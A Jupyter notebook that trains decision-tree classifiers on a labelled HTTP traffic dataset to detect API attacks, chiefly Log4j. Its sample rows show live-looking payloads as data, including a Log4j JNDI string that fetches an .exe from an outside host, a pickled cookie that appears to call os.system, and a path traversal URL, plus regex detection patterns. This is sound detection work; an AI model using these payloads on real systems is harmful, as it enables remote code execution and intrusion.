# API Attack Detection

This notebook presents an exploratory data analysis and the development of Machine Learning models to detect attacks in REST APIs, using a dataset containing HTTP traffic provided by Cisco.

The goal is to analyze the data, identify patterns in requests and test different feature engineering techniques to improve attack classification, especially Log4j detection.

## 1. Initial Data Exploration

The dataset contains 4,282 HTTP request records, including information about requests, responses and their respective attack labels.

The first step is to understand the dataset structure, explore the available features and analyze the distribution of attack categories.

Among the available records, Normal Traffic represents 2,018 entries, while Log4j attacks account for 277 entries.

## 2. Importing Libraries

In this section, we import the libraries used throughout the analysis, including data manipulation, visualization, feature engineering, model training and evaluation.

In [222]:
from pathlib import Path
from IPython.display import display
import json
import re

import numpy as np
import pandas as pd
import matplotlib.pyplot as plt

from sklearn.compose import ColumnTransformer
from sklearn.ensemble import GradientBoostingClassifier, RandomForestClassifier
from sklearn.impute import SimpleImputer
from sklearn.metrics import (
    ConfusionMatrixDisplay,
    accuracy_score,
    classification_report,
    make_scorer,
    precision_score,
    recall_score,
    f1_score,
)
from sklearn.model_selection import GridSearchCV, cross_validate, train_test_split
from sklearn.pipeline import Pipeline
from sklearn.preprocessing import OneHotEncoder
from sklearn.tree import DecisionTreeClassifier
from sklearn.base import clone

RANDOM_STATE = 42
TEST_SIZE = 0.20
TARGET_COLUMN = "request.Attack_Tag"
NORMAL_LABEL = "Normal Traffic"
LOG4J_LABEL = "LOG4J"
DATA_PATH = Path("../data/dataset_1_train.json")

pd.set_option("display.max_columns", 100)
pd.set_option("display.max_colwidth", 100)

## 3. Load the dataset

The source file contains nested request and response objects. `pandas.json_normalize` flattens those objects into columns while keeping the original field names, which are useful when tracing a feature back to its source.

In [223]:
if not DATA_PATH.is_file():
    raise FileNotFoundError(
        f"Dataset not found at {DATA_PATH.resolve()}. "
        "Place dataset_1_train.json in the repository's data/ directory "
        "or update DATA_PATH."
    )

with DATA_PATH.open("r", encoding="utf-8") as file:
    raw_records = json.load(file)

df_raw = pd.json_normalize(raw_records, max_level=2)

required_columns = {
    TARGET_COLUMN,
    "request.method",
    "request.url",
    "request.body",
    "request.headers.Cookie",
    "request.headers.Content-Length",
    "request.headers.Sec-Fetch-Site",
    "response.status_code",
    "response.headers.Content-Type",
    "response.headers.Content-Length",
}
missing_columns = required_columns.difference(df_raw.columns)
if missing_columns:
    raise ValueError(f"The dataset is missing required columns: {sorted(missing_columns)}")

print(f"Dataset shape: {df_raw.shape[0]:,} rows x {df_raw.shape[1]} columns")
display(df_raw.head())

Dataset shape: 4,282 rows x 25 columns


,request.headers.Host,request.headers.User-Agent,request.headers.Accept-Encoding,request.headers.Accept,request.headers.Connection,request.headers.Accept-Language,request.headers.Sec-Fetch-Site,request.headers.Sec-Fetch-Mode,request.headers.Sec-Fetch-User,request.headers.Sec-Fetch-Dest,request.headers.Set-Cookie,request.headers.Date,request.method,request.url,request.body,request.Attack_Tag,response.status,response.headers.Content-Type,response.headers.Content-Length,response.status_code,response.body,request.headers.Cookie,response.headers.Location,request.headers.Content-Length,response.headers.Set-Cookie
0,127.0.0.1:5000,Mozilla/5.0 (X11; Linux i586; rv:31.0) Gecko/20100101 Firefox/31.0,"gzip, deflate, br",*/*,keep-alive,de-CH,none,same-origin,?1,document,['ck=o_GpTr9HHJJuQyahzYzRI32s-1_JPvkhLtweRRmjPU19OUEaOK-ByCr__fqutrZQOXezgmR_XijeCX8zEKBQlw; Dom...,"Mon, 21 Nov 2022 18:12:16 GMT",GET,http://127.0.0.1:5000/static/download_txt/../../../../../../../../windows.ini.txt,,Directory Traversal,200 OK,application/json,72,200,"{""error"": ""File ../../../../../../../../windows.ini.txt not found""}",NaN,NaN,NaN,NaN
1,127.0.0.1:5000,Mozilla/5.0 (X11; OpenBSD amd64; rv:28.0) Gecko/20100101 Firefox/28.0,"gzip, deflate, br",*/*,keep-alive,de,none,same-origin,?1,document,['ck=UYrrg74Ph7dWrlCA9rgXy6qtYSwxuCZK_nBsCp-j5plCUObLpHiPzL7KqnN-K0mGZAYycI0_Uk7BGfZGA0-oyQ; Dom...,"Mon, 21 Nov 2022 18:12:16 GMT",GET,http://127.0.0.1:5000/categories/check/name/2467,,NaN,404 NOT FOUND,application/json,41,404,"{""error"": ""Category name not found""}",NaN,NaN,NaN,NaN
2,127.0.0.1:5000,Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:24.0) Gecko/20100101 Firefox/24.0,"gzip, deflate, br",*/*,keep-alive,de,none,same-origin,?1,document,['ck=wiMIulyT7VOEQKT-4D5ChZAjxiTdRXAYUaz_OQ3RcWUmtSVH3_UpxffTkjX_LFlgJQaUGKZus8C2Dun_HWP-Sg; Dom...,"Mon, 21 Nov 2022 18:12:16 GMT",GET,http://127.0.0.1:5000/cookielogin,,Cookie Injection,200 OK,text/html; charset=utf-8,105,200,<h1>Logged in as Cedric</h1><form method='POST'><input type='submit' name='logout' value='Logout...,username=gASVyQAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIytKGV4ZWMoJycnCmltcG9ydCBvcwpvcy5zeXN0ZW0oInB...,NaN,NaN,NaN
3,127.0.0.1:5000,Mozilla/5.0 (Windows NT 6.1; rv:27.3) Gecko/20130101 Firefox/27.3,"gzip, deflate, br",*/*,keep-alive,de-CH,none,same-origin,?1,document,['ck=pQiHhJSsvZ9vw-yR8NmaTGKzqUBsn583t3Q6zWEoztYqoE8JqwktmJss6VYPz55PbrRqVt-uX0gwXa4btaHYoA; Dom...,"Mon, 21 Nov 2022 18:12:16 GMT",GET,http://127.0.0.1:5000/states/get/region/6117,,NaN,404 NOT FOUND,application/json,30,404,"{""error"": ""Not a region""}",NaN,NaN,NaN,NaN
4,127.0.0.1:5000,Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:25.0) Gecko/20100101 Firefox/25.0,"gzip, deflate, br",*/*,keep-alive,de,none,same-origin,?1,document${jndi:ldaphttps://mitsui-jyuku.mixh.jp/uploads/20313687ead846bae3d6dc2187ebf1d00be.exe},['ck=vGDsymCRgtDms448zxnOurIjvy46d_4aAGJRG6gmhacrNG0843pKO7Fyie9wd-NSBfqwWeVr53n2hGGkYVFt0A; Dom...,"Mon, 21 Nov 2022 18:12:16 GMT",GET,http://127.0.0.1:5000/categories/check/name/2508,,LOG4J,404 NOT FOUND,application/json,41,404,"{""error"": ""Category name not found""}",NaN,NaN,NaN,NaN


## 4. Target definition and data-quality checks

Missing `request.Attack_Tag` values are treated as `Normal Traffic`. This assumption is retained to preserve the original experiment, but it must be validated against the dataset documentation: a missing label is not automatically proof that a request is benign.

The assignment is written explicitly (`fillna` returns a new Series). The assignment is explicit and avoids chained-assignment behavior.

In [224]:
df = df_raw.copy()
df[TARGET_COLUMN] = df[TARGET_COLUMN].fillna(NORMAL_LABEL).astype(str)

print("Dataset shape:", df.shape)
print("\nTarget distribution:")
display(
    df[TARGET_COLUMN]
    .value_counts(dropna=False)
    .rename_axis("attack_type")
    .to_frame("count")
)

print("\nMissing values (top 15 columns):")
display(
    df.isna()
    .sum()
    .sort_values(ascending=False)
    .head(15)
    .rename("missing_count")
    .to_frame()
)

assert df[TARGET_COLUMN].notna().all()
assert LOG4J_LABEL in set(df[TARGET_COLUMN])

Dataset shape: (4282, 25)

Target distribution:


,count
attack_type,
Normal Traffic,2018
SQL Injection,586
Cookie Injection,566
Log Forging,297
LOG4J,277
Directory Traversal,270
RCE,268



Missing values (top 15 columns):


,missing_count
response.headers.Set-Cookie,3983
request.headers.Content-Length,3983
response.headers.Location,3881
request.headers.Cookie,3716
request.url,0
response.body,0
response.status_code,0
response.headers.Content-Length,0
response.headers.Content-Type,0
response.status,0




In [225]:
class_counts = df[TARGET_COLUMN].value_counts().sort_values(ascending=True)

fig, ax = plt.subplots(figsize=(9, 5))
class_counts.plot(kind="barh", ax=ax)
ax.set_title("Target Class Distribution")
ax.set_xlabel("Number of records")
ax.set_ylabel("Attack class")
ax.grid(axis="x", alpha=0.25)
plt.tight_layout()
plt.show()

## 5. Investigating Log4j payload patterns

The analysis checks request fields for two patterns:

- **Template expression:** `${`
- **JNDI expression:** `${...jndi:`

The target column is excluded from the text scan. The goal is to identify payload indicators that can improve Log4j detection.

In [226]:
request_columns = [
    column
    for column in df.columns
    if column.startswith("request.") and column != TARGET_COLUMN
]

TEMPLATE_PATTERN = r"\$\{"
JNDI_PATTERN = r"\$\{.*?jndi\s*:"

template_matches = pd.DataFrame(
    {
        column: df[column]
        .fillna("")
        .astype("string")
        .str.contains(TEMPLATE_PATTERN, case=False, regex=True, na=False)
        for column in request_columns
    },
    index=df.index,
)

has_template = template_matches.any(axis=1).astype("int8")

template_prevalence = (
    pd.DataFrame({TARGET_COLUMN: df[TARGET_COLUMN], "has_template": has_template})
    .groupby(TARGET_COLUMN)["has_template"]
    .agg(records_with_template="sum", prevalence="mean", support="count")
    .sort_values("prevalence", ascending=False)
)

display(template_prevalence.style.format({"prevalence": "{:.1%}"}))
print(
    "Log4j records containing '${' in at least one request field:",
    f"{int(has_template[df[TARGET_COLUMN].eq(LOG4J_LABEL)].sum())}/"
    f"{int(df[TARGET_COLUMN].eq(LOG4J_LABEL).sum())}",
)

,records_with_template,prevalence,support
request.Attack_Tag,,,
LOG4J,277,100.0%,277
Cookie Injection,0,0.0%,566
Directory Traversal,0,0.0%,270
Log Forging,0,0.0%,297
Normal Traffic,0,0.0%,2018
RCE,0,0.0%,268
SQL Injection,0,0.0%,586


Log4j records containing '${' in at least one request field: 277/277


In [227]:
JNDI_SCAN_COLUMNS = [
    "request.headers.Accept-Encoding",
    "request.headers.Sec-Fetch-Dest",
    "request.headers.Set-Cookie",
    "request.headers.Accept-Language",
    "request.headers.Host",
    "request.headers.Accept",
    "request.headers.Connection",
    "request.headers.Sec-Fetch-Mode",
    "request.headers.Sec-Fetch-User",
    "request.headers.User-Agent",
    "request.url",
    "request.body",
]

missing_jndi_columns = set(JNDI_SCAN_COLUMNS).difference(df.columns)
if missing_jndi_columns:
    raise ValueError(f"Missing columns required for the JNDI scan: {sorted(missing_jndi_columns)}")

jndi_matches = pd.DataFrame(
    {
        column: df[column]
        .fillna("")
        .astype("string")
        .str.contains(JNDI_PATTERN, case=False, regex=True, na=False)
        for column in JNDI_SCAN_COLUMNS
    },
    index=df.index,
)

jndi_by_class = (
    jndi_matches.assign(attack_type=df[TARGET_COLUMN])
    .groupby("attack_type")
    .mean()
    .T
)

jndi_by_class.index.name = "request_field"
display(jndi_by_class.style.format("{:.1%}"))

jndi_coverage = jndi_matches.any(axis=1)
log4j_mask = df[TARGET_COLUMN].eq(LOG4J_LABEL)
print(
    "Log4j records containing a JNDI expression in at least one scanned field:",
    f"{int(jndi_coverage[log4j_mask].sum())}/{int(log4j_mask.sum())} "
    f"({jndi_coverage[log4j_mask].mean():.1%})",
)

attack_type,Cookie Injection,Directory Traversal,LOG4J,Log Forging,Normal Traffic,RCE,SQL Injection
request_field,,,,,,,
request.headers.Accept-Encoding,0.0%,0.0%,17.3%,0.0%,0.0%,0.0%,0.0%
request.headers.Sec-Fetch-Dest,0.0%,0.0%,19.9%,0.0%,0.0%,0.0%,0.0%
request.headers.Set-Cookie,0.0%,0.0%,49.8%,0.0%,0.0%,0.0%,0.0%
request.headers.Accept-Language,0.0%,0.0%,0.0%,0.0%,0.0%,0.0%,0.0%
request.headers.Host,0.0%,0.0%,0.0%,0.0%,0.0%,0.0%,0.0%
request.headers.Accept,0.0%,0.0%,0.0%,0.0%,0.0%,0.0%,0.0%
request.headers.Connection,0.0%,0.0%,0.0%,0.0%,0.0%,0.0%,0.0%
request.headers.Sec-Fetch-Mode,0.0%,0.0%,0.0%,0.0%,0.0%,0.0%,0.0%
request.headers.Sec-Fetch-User,0.0%,0.0%,0.0%,0.0%,0.0%,0.0%,0.0%


Log4j records containing a JNDI expression in at least one scanned field: 241/277 (87.0%)


### Payload analysis

The broad `${` marker appeared in **277/277 Log4j records**. The narrower JNDI pattern appeared in **241/277 (87.0%)**.

This supports testing both indicators: the broad marker offers higher coverage, while JNDI flags provide a more specific signal. The ablation experiment evaluates their contribution to model performance.

## 6. Feature engineering

Two feature groups are used:

- **Baseline:** HTTP method, response status, content type and selected request/response metadata.
- **Engineered:** template-expression, JNDI and URL indicators.

The same feature definitions and train/test split are used across the experiments.

In [228]:
feature_df = df.copy()

feature_df["has_cookie"] = (
    feature_df["request.headers.Cookie"]
    .fillna("")
    .astype("string")
    .str.len()
    .gt(0)
    .astype("int8")
)

feature_df["has_content_length"] = (
    feature_df["request.headers.Content-Length"].notna().astype("int8")
)

feature_df["sec_fetch_site_none"] = (
    feature_df["request.headers.Sec-Fetch-Site"].fillna("").eq("none").astype("int8")
)

feature_df["response.headers.Content-Length"] = pd.to_numeric(
    feature_df["response.headers.Content-Length"],
    errors="coerce",
)

feature_df["has_template"] = has_template

JNDI_FEATURE_MAP = {
    "accept_encoding_has_jndi": "request.headers.Accept-Encoding",
    "sec_fetch_dest_has_jndi": "request.headers.Sec-Fetch-Dest",
    "set_cookie_has_jndi": "request.headers.Set-Cookie",
}

for feature_name, source_column in JNDI_FEATURE_MAP.items():
    feature_df[feature_name] = (
        feature_df[source_column]
        .fillna("")
        .astype("string")
        .str.contains(JNDI_PATTERN, case=False, regex=True, na=False)
        .astype("int8")
    )

feature_df["has_jndi_anywhere"] = jndi_coverage.astype("int8")

url = feature_df["request.url"].fillna("").astype("string")
feature_df["url_has_traversal"] = url.str.contains(r"\.\./", regex=True, na=False).astype("int8")
feature_df["url_has_newline_encoded"] = url.str.contains(
    r"%0a|%0d", case=False, regex=True, na=False
).astype("int8")

BASE_CATEGORICAL_FEATURES = [
    "request.method",
    "response.status_code",
    "response.headers.Content-Type",
]

BASE_NUMERIC_FEATURES = [
    "response.headers.Content-Length",
    "has_cookie",
    "has_content_length",
    "sec_fetch_site_none",
]

TEMPLATE_FEATURES = ["has_template"]
JNDI_FEATURES = [
    "accept_encoding_has_jndi",
    "sec_fetch_dest_has_jndi",
    "set_cookie_has_jndi",
    "has_jndi_anywhere",
]
URL_FEATURES = ["url_has_traversal", "url_has_newline_encoded"]
ENGINEERED_FEATURES = TEMPLATE_FEATURES + JNDI_FEATURES + URL_FEATURES

print(f"Baseline feature count: {len(BASE_CATEGORICAL_FEATURES) + len(BASE_NUMERIC_FEATURES)}")
print(f"Additional engineered feature count: {len(ENGINEERED_FEATURES)}")
display(
    pd.DataFrame(
        {
            "feature": ENGINEERED_FEATURES,
            "feature_group": [
                "Template expression",
                "JNDI header marker",
                "JNDI header marker",
                "JNDI header marker",
                "JNDI aggregate",
                "URL pattern",
                "URL pattern",
            ],
        }
    )
)

Baseline feature count: 7
Additional engineered feature count: 7


,feature,feature_group
0,has_template,Template expression
1,accept_encoding_has_jndi,JNDI header marker
2,sec_fetch_dest_has_jndi,JNDI header marker
3,set_cookie_has_jndi,JNDI header marker
4,has_jndi_anywhere,JNDI aggregate
5,url_has_traversal,URL pattern
6,url_has_newline_encoded,URL pattern


## 7. Experimental design

All experiments use the same **stratified 80/20 train-test split**. Preprocessing is fitted inside each training fold to avoid leakage.

Four feature configurations are evaluated:

1. Baseline.
2. Baseline + template indicator.
3. Baseline + JNDI indicators.
4. Full engineered feature set.

The Decision Tree is used for the ablation so the feature investigation remains aligned with the model recommended for API Sentinel ML.

In [229]:
y = feature_df[TARGET_COLUMN].copy()

all_indices = feature_df.index
train_indices, test_indices = train_test_split(
    all_indices,
    test_size=TEST_SIZE,
    random_state=RANDOM_STATE,
    stratify=y,
)

y_train = y.loc[train_indices]
y_test = y.loc[test_indices]

FEATURE_CONFIGURATIONS = {
    "Baseline": [],
    "Baseline + template": TEMPLATE_FEATURES,
    "Baseline + JNDI": JNDI_FEATURES,
    "Full engineered set": ENGINEERED_FEATURES,
}


def get_feature_columns(additional_features):
    return BASE_CATEGORICAL_FEATURES + BASE_NUMERIC_FEATURES + additional_features


def build_preprocessor(categorical_features, numeric_features):
    categorical_pipeline = Pipeline(
        steps=[
            ("imputer", SimpleImputer(strategy="most_frequent")),
            ("one_hot_encoder", OneHotEncoder(handle_unknown="ignore")),
        ]
    )
    numeric_pipeline = Pipeline(
        steps=[("imputer", SimpleImputer(strategy="median"))]
    )

    return ColumnTransformer(
        transformers=[
            ("categorical", categorical_pipeline, categorical_features),
            ("numeric", numeric_pipeline, numeric_features),
        ],
        remainder="drop",
    )


def build_classifier_pipeline(classifier, additional_features):
    categorical_features = BASE_CATEGORICAL_FEATURES
    numeric_features = BASE_NUMERIC_FEATURES + additional_features

    return Pipeline(
        steps=[
            (
                "preprocessor",
                build_preprocessor(categorical_features, numeric_features),
            ),
            ("classifier", classifier),
        ]
    )


X_train_by_experiment = {}
X_test_by_experiment = {}

for experiment_name, additional_features in FEATURE_CONFIGURATIONS.items():
    selected_columns = get_feature_columns(additional_features)
    X_train_by_experiment[experiment_name] = feature_df.loc[train_indices, selected_columns]
    X_test_by_experiment[experiment_name] = feature_df.loc[test_indices, selected_columns]

print(f"Training records: {len(train_indices):,}")
print(f"Test records: {len(test_indices):,}")
print("\nLog4j support in the holdout set:", int(y_test.eq(LOG4J_LABEL).sum()))

Training records: 3,425
Test records: 857

Log4j support in the holdout set: 55


## 8. Decision Tree Hyperparameter Optimization

A grid search tunes the Decision Tree using five-fold cross-validation. Accuracy, macro metrics, and Log4j recall are tracked. The search selects the configuration by **macro F1**, balancing performance across attack classes rather than optimizing only the majority classes.

The selected configuration is then used in the feature-ablation experiment and final Decision Tree evaluation.

In [230]:
DECISION_TREE_PARAM_GRID = {
    "classifier__criterion": ["gini", "entropy"],
    "classifier__max_depth": [None, 5, 10, 20],
    "classifier__min_samples_split": [2, 5],
    "classifier__min_samples_leaf": [1, 2],
}

SCORING = {
    "accuracy": "accuracy",
    "precision_macro": make_scorer(
        precision_score, average="macro", zero_division=0
    ),
    "recall_macro": make_scorer(
        recall_score, average="macro", zero_division=0
    ),
    "f1_macro": make_scorer(
        f1_score, average="macro", zero_division=0
    ),
    "log4j_recall": make_scorer(
        recall_score,
        labels=[LOG4J_LABEL],
        average="macro",
        zero_division=0,
    ),
}


def tune_decision_tree(X_train, y_train, additional_features):
    pipeline = build_classifier_pipeline(
        DecisionTreeClassifier(random_state=RANDOM_STATE),
        additional_features,
    )
    search = GridSearchCV(
        estimator=pipeline,
        param_grid=DECISION_TREE_PARAM_GRID,
        scoring=SCORING,
        refit="f1_macro",
        cv=5,
        n_jobs=-1,
        verbose=1,
        return_train_score=False,
    )
    search.fit(X_train, y_train)
    return search


decision_tree_search = tune_decision_tree(
    X_train_by_experiment["Full engineered set"],
    y_train,
    FEATURE_CONFIGURATIONS["Full engineered set"],
)

print("Decision Tree best parameters:")
print(decision_tree_search.best_params_)
print(f"Best CV macro F1: {decision_tree_search.best_score_:.4f}")
print(
    "CV Log4j recall for selected configuration:",
    f"{decision_tree_search.cv_results_['mean_test_log4j_recall'][decision_tree_search.best_index_]:.4f}",
)


Fitting 5 folds for each of 32 candidates, totalling 160 fits
Decision Tree best parameters:
{'classifier__criterion': 'gini', 'classifier__max_depth': None, 'classifier__min_samples_leaf': 1, 'classifier__min_samples_split': 2}
Best CV macro F1: 0.9606
CV Log4j recall for selected configuration: 1.0000


### 9. Feature Ablation Analysis

The experiment evaluates how different feature configurations affect
the classification performance, particularly the detection of Log4j attacks.

The results help identify which engineered features contribute most
to improving the model's ability to detect this attack category.

In [231]:
def calculate_test_metrics(y_true, y_pred):
    report = classification_report(
        y_true,
        y_pred,
        output_dict=True,
        zero_division=0,
    )
    return {
        "accuracy": accuracy_score(y_true, y_pred),
        "macro_precision": precision_score(
            y_true, y_pred, average="macro", zero_division=0
        ),
        "macro_recall": recall_score(
            y_true, y_pred, average="macro", zero_division=0
        ),
        "macro_f1": f1_score(y_true, y_pred, average="macro", zero_division=0),
        "log4j_precision": report.get(LOG4J_LABEL, {}).get("precision", 0.0),
        "log4j_recall": report.get(LOG4J_LABEL, {}).get("recall", 0.0),
        "log4j_f1": report.get(LOG4J_LABEL, {}).get("f1-score", 0.0),
        "log4j_support": report.get(LOG4J_LABEL, {}).get("support", 0),
    }


experiment_models = {
    "Baseline": tune_decision_tree(
        X_train_by_experiment["Baseline"], y_train, FEATURE_CONFIGURATIONS["Baseline"]
    ).best_estimator_,
    "Full engineered set": decision_tree_search.best_estimator_,
}

fixed_full_params = decision_tree_search.best_estimator_.named_steps["classifier"].get_params()
fixed_full_params = {
    key: fixed_full_params[key]
    for key in ["criterion", "max_depth", "min_samples_split", "min_samples_leaf", "random_state"]
}

for experiment_name in ["Baseline + template", "Baseline + JNDI"]:
    ablation_pipeline = build_classifier_pipeline(
        DecisionTreeClassifier(**fixed_full_params),
        FEATURE_CONFIGURATIONS[experiment_name],
    )
    ablation_pipeline.fit(
        X_train_by_experiment[experiment_name],
        y_train,
    )
    experiment_models[experiment_name] = ablation_pipeline

experiment_predictions = {}
experiment_metrics = {}

for experiment_name, fitted_model in experiment_models.items():
    predictions = fitted_model.predict(X_test_by_experiment[experiment_name])
    experiment_predictions[experiment_name] = predictions
    experiment_metrics[experiment_name] = calculate_test_metrics(y_test, predictions)

print("Baseline classification report:")
print(
    classification_report(
        y_test,
        experiment_predictions["Baseline"],
        digits=4,
        zero_division=0,
    )
)

print("Full engineered classification report:")
print(
    classification_report(
        y_test,
        experiment_predictions["Full engineered set"],
        digits=4,
        zero_division=0,
    )
)

Fitting 5 folds for each of 32 candidates, totalling 160 fits
Baseline classification report:
                     precision    recall  f1-score   support

   Cookie Injection     1.0000    1.0000    1.0000       113
Directory Traversal     1.0000    1.0000    1.0000        54
              LOG4J     0.0000    0.0000    0.0000        55
        Log Forging     1.0000    1.0000    1.0000        60
     Normal Traffic     0.8796    0.9406    0.9091       404
                RCE     0.8182    1.0000    0.9000        54
      SQL Injection     0.8864    1.0000    0.9398       117

           accuracy                         0.9078       857
          macro avg     0.7977    0.8487    0.8213       857
       weighted avg     0.8521    0.9078    0.8784       857

Full engineered classification report:
                     precision    recall  f1-score   support

   Cookie Injection     1.0000    1.0000    1.0000       113
Directory Traversal     1.0000    1.0000    1.0000        54
         

,accuracy,macro_precision,macro_recall,macro_f1,log4j_precision,log4j_recall,log4j_f1,log4j_support
experiment,,,,,,,,
Full engineered set,0.972,0.962,0.992,0.975,1.000,1.000,1.000,55
Baseline + template,0.972,0.962,0.992,0.975,1.000,1.000,1.000,55
Baseline + JNDI,0.972,0.962,0.992,0.975,1.000,1.000,1.000,55
Baseline,0.908,0.798,0.849,0.821,0.000,0.000,0.000,55




In [232]:
feature_ablation_results = (
    pd.DataFrame.from_dict(experiment_metrics, orient="index")
    .rename_axis("experiment")
    .sort_values("log4j_recall", ascending=False)
)

display(
    feature_ablation_results.style.format(
        {
            "accuracy": "{:.3f}",
            "macro_precision": "{:.3f}",
            "macro_recall": "{:.3f}",
            "macro_f1": "{:.3f}",
            "log4j_precision": "{:.3f}",
            "log4j_recall": "{:.3f}",
            "log4j_f1": "{:.3f}",
            "log4j_support": "{:.0f}",
        }
    )
)

fig, ax = plt.subplots(figsize=(9, 5))
feature_ablation_results["log4j_recall"].sort_values().plot(
    kind="barh", ax=ax
)
ax.set_xlim(0, 1.05)
ax.set_title("Log4j Recall by Feature Configuration")
ax.set_xlabel("Recall")
ax.set_ylabel("Experiment")
ax.grid(axis="x", alpha=0.25)
plt.tight_layout()
plt.show()

### Ablation interpretation

Compare Log4j recall across the baseline, template-only, JNDI-only, and full feature configurations.

A higher recall indicates that fewer Log4j records were missed in this holdout split. Consider this result alongside precision and macro F1: increasing recall can also increase false positives.

The experiment measures association on one split; it does not establish that an individual feature causes better generalization.

## 10. Decision Tree Evaluation

The confusion matrix and classification report are used to evaluate
the Decision Tree performance across the different attack categories.

Special attention is given to Log4j recall, since improving the
detection of this attack was one of the main objectives of the experiment.



Per-class test metrics:
                     precision    recall  f1-score   support

   Cookie Injection     1.0000    1.0000    1.0000       113
Directory Traversal     1.0000    1.0000    1.0000        54
              LOG4J     1.0000    1.0000    1.0000        55
        Log Forging     1.0000    1.0000    1.0000        60
     Normal Traffic     1.0000    0.9406    0.9694       404
                RCE     0.8308    1.0000    0.9076        54
      SQL Injection     0.9000    1.0000    0.9474       117

           accuracy                         0.9720       857
          macro avg     0.9615    0.9915    0.9749       857
       weighted avg     0.9757    0.9720    0.9726       857



In [233]:
full_predictions = experiment_predictions["Full engineered set"]
class_labels = sorted(y.unique())

fig, ax = plt.subplots(figsize=(10, 8))
ConfusionMatrixDisplay.from_predictions(
    y_test,
    full_predictions,
    labels=class_labels,
    display_labels=class_labels,
    xticks_rotation=45,
    cmap="Blues",
    colorbar=False,
    ax=ax,
)
ax.set_title("Confusion Matrix — Decision Tree with Engineered Features")
plt.tight_layout()
plt.show()

print("Per-class test metrics:")
print(
    classification_report(
        y_test,
        full_predictions,
        labels=class_labels,
        digits=4,
        zero_division=0,
    )
)

## 11. Decision Tree Feature Importance

The Decision Tree's feature importance provides a compact view of which transformed inputs contributed most to its splits.

Importance is model-specific and should not be interpreted as causal evidence. Correlated features can share or distort importance.

,feature,importance
0,numeric__has_cookie,0.228737
1,numeric__response.headers.Content-Length,0.210606
2,numeric__url_has_traversal,0.132165
3,numeric__url_has_newline_encoded,0.132054
4,numeric__has_template,0.129285
5,categorical__response.status_code_404,0.084103
6,categorical__response.headers.Content-Type_application/json,0.083050
7,categorical__response.status_code_308,0.000000
8,categorical__response.status_code_401,0.000000
9,categorical__response.headers.Content-Type_text/html; charset=utf-8,0.000000


